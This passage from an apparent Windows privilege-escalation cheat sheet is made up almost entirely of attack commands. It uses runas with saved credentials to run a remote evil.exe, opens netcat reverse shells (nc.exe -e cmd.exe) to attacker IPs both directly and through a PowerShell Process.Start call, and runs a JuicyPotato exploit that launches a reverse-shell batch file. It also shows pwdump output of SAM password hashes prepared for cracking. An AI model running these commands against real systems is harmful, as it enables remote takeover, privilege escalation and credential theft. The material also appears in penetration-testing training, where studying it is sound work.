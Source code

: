 Then you can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

```powershell
C:\> runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"

C:\> runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.16.125 4433"

```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```



## Juciypotato

Evil.bat

```bash
c:\inetpub\wwwroot\nc.exe 192.168.119.122 4433 -e cmd.exe
```

Juicy upload then run

```bash
JuicyPotato.exe -l 4433 -p c:\inetpub\wwwroot\priv.bat -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
```





### Password Dumpers

##### pwdump.exe

At present pwdump can dump passwords for Windows 2k/XP/2003/Vista/2008.

then crack the hashes --> LM hashes

```bash
root@kali:~# pwdump system sam
Administrator:500:41aa818b512a8c0e72381e4c174e281b:1896d0a309184775f67c14d14b5c365a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:667d6c58d451dbf236ae37ab1de3b9f7:af733642ab69e156ba0c219d3bbc3c83:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8dffa305e2bee837f279c2c0b082affb:::
```

```powershell
c:/> Pwdump.exe localhost

Administrator:500:NO PASSWORD*********************:3194891312029EF822116B418563087F:::
bob:1004:F9955E274D35F503BB4798EF9CA65D2D:FF79DB8ED6FE21369790A94B5EECD8E0:::
Guest:501:NO PASSWORD*********************:NO PASSWORD*********************:::
HelpAssistant:1000:05FA67EAEC4D789EC4BD52F48E5A6B28:2733CDB0D8A1FEC3F976F3B8AD1DEEEF:::
IUSR_BOB:1005:AD494FC8F015FDDB4D9497B508477485:2370BD19F77F088CF1540624C91BE101:::
IWAM_BOB:1006:170B37B9818316ABC9813AABB4DCF396:E4BE24494F363A2C015BF08B2453129D:::
pwn:1008:32F376AC60B95060AAD3B435B51404EE:4642E5327B669250C11A5690E1EDD015:::
SUPPORT_388945a0:1002:NO PASSWORD*********************:0F7A50DD4B95CEC4C1DEA566F820F4E7:::
```

